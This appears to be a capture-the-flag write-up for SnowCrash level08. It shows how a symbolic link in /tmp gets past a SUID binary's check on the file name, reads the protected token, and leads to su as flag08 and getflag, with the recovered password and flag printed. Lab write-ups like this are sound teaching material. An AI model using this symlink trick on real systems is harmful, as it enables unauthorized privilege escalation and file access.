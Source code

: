 1. **File Search**

    ```bash
    level08@SnowCrash:~$ ll
    [...]
    -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*
    -rw-------  1 flag08  flag08    26 Mar  5  2016 token

    level08@SnowCrash:~$ ./level08 
    ./level08 [file to read]

    level08@SnowCrash:~$ ./level08  token
    You may not access 'token'
    ```

2. **Analysis and Exploitation**

    When listing the files, we observe the following:
    *   The binary `level08` has permissions `rwsr-s---+`. The SUID bit (`s` in the user permissions) means that the program runs with the permissions of the file owner, which is `flag08`.
    *   The `token` file is owned by `flag08` and only `flag08` can read it (`-rw-------`).
    *   The `level08` program takes a file name as an argument and displays its content.
    *   If we try to read the `token` file directly (`./level08 token`), the program displays the message "You may not access 'token'". This indicates a simple protection based on the file name.

    The vulnerability here is that the file name check for "token" can be bypassed. Since the program runs as `flag08`, it has permission to read the `token` file. If we provide a different file name that points to `token` (for example, a symbolic link), the name check will fail, but the program will still be able to read the file due to its SUID privileges.

3. **Exploitation Steps**

    We create a symbolic link to the `token` file and then use `level08` to read the content through this link:
    ```bash
    level08@SnowCrash:~$ ln -s ~/token /tmp/file
    level08@SnowCrash:~$ ll /tmp/file
    lrwxrwxrwx 1 level08 level08 24 May  7 15:35 /tmp/file -> /home/user/level08/token
    level08@SnowCrash:~$ ./level08 /tmp/file
    quif5eloekouj29ke0vouxean  # Password flag08
    level08@SnowCrash:~$ su flag08
    Password: 
    Do not forget to launch getflag !
    flag08@SnowCrash:~$ getflag
    Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
    ```
    This works because the `level08` program checks if the argument is the string "token". By passing "/tmp/file", the check is bypassed. Then, when the program tries to open and read the file, the operating system resolves the symbolic link to `token`, and since `level08` runs with `flag08`'s privileges, it can read it successfully.
